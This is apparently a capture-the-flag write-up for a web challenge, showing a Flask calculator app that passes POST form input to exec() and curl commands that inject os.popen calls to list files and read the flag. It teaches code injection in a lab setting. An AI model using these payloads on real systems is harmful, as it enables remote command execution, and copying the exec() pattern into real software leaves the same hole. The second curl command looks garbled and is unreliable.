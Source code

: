 # 🪐 Interdimensional Calculator - 375pts

```
💡 Uses Remote Code Execution
```

### Enumeration

This was in large part to my teammate, Wesley, I wasn't working on this challenge at first and he used a **directory/file enumeration tool** and discovered a `/debug` page, it was also actually in the source code comments. 

You could have used **dirbuster**, **dirb**, **gobuster**, etc. I personally like dirb (default wordlist), the command: `dirb http://<ip>:<port>`

### Flask (A small and lightweight ***Python web framework)***

- Navigate to `http://<ip>:<port>/debug`

```python
from flask import Flask, Response, request, render_template, request
    from random import choice, randint
    from string import lowercase
    from functools import wraps
    
    app = Flask(__name__)
    
    def calc(recipe):
        global garage
        garage = {}
        try: exec(recipe, garage)
        except: pass
    
    def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
        @wraps(func)
        def federation(*args, **kwargs):
            ingredient = ''.join(choice(lowercase) for _ in range(10))
            recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
    
            if request.method == 'POST':
                ingredient = request.form.get('ingredient', '')
                recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
    
            calc(recipe)
    
            if garage.get(ingredient, ''):
                return render_template('index.html', calculations=garage[ingredient])
    
            return func(*args, **kwargs)
        return federation
    
    @app.route('/', methods=['GET', 'POST'])
    @GCR
    def index():
        return render_template('index.html')
    
    @app.route('/debug')
    def debug():
        return Response(open(__file__).read(), mimetype='text/plain')
    
    if __name__ == '__main__':
        app.run('0.0.0.0', port=1337)
```

We should note the `calc` function, specifically because it tries to `execute` something. This should be an immediate red flag for an `attack vector`.

- `try: exec(recipe, garage)`

Okay, really the part we care about is what happens when we `POST` request anything to the website:

- Changing the values of `ingredient` and `measurements` directly change what is displayed
- Potential vulnerability where **passing a user input can execute system commands**
- Reasons why I ignore everything else:
    - It creates the `recipe` used in `execution`
    - The `calc()` method is called immediately after

A `POST` method consists of an `address` and `data` so we manipulate the data field, you can use a **script**, **BurpSuite** to `intercept` and `modify` a request, or simply **curl**.

---

### Solution - Curl method (terminal)

You can try to directly run system commands but `they do not work`

- Import the Python **`os`** module, it provides commands for interacting with the operating system (files & directories!)
- `-X POST` is to specify the request method
    - You could omit this line, `-d` will send a `POST` automatically but I like to be explicit for my own learning
- `-d` is short for `--data`, sends the specified data in a `POST` request
- `__import__()` is the function to **import**
- `.` is used to **chain method calls**
- `popen()` **executes the command inside ()**
- `read()` is necessary to actually read the output

This should list everything in the **current working directory**

`curl -X POST http://<ip>:<port> -d "ingredient="meow"&measurements=__import__('os').popen('ls -la').read()"`

You gain knowledge that there is a file named `flag`

- `cat` is used to output the contents of `flag`

`curl -X POST http://<ip>:<port> -d "ingredient=”meow”=__import__('os').popen('cat flag').read()"`

The flag should show up in the response
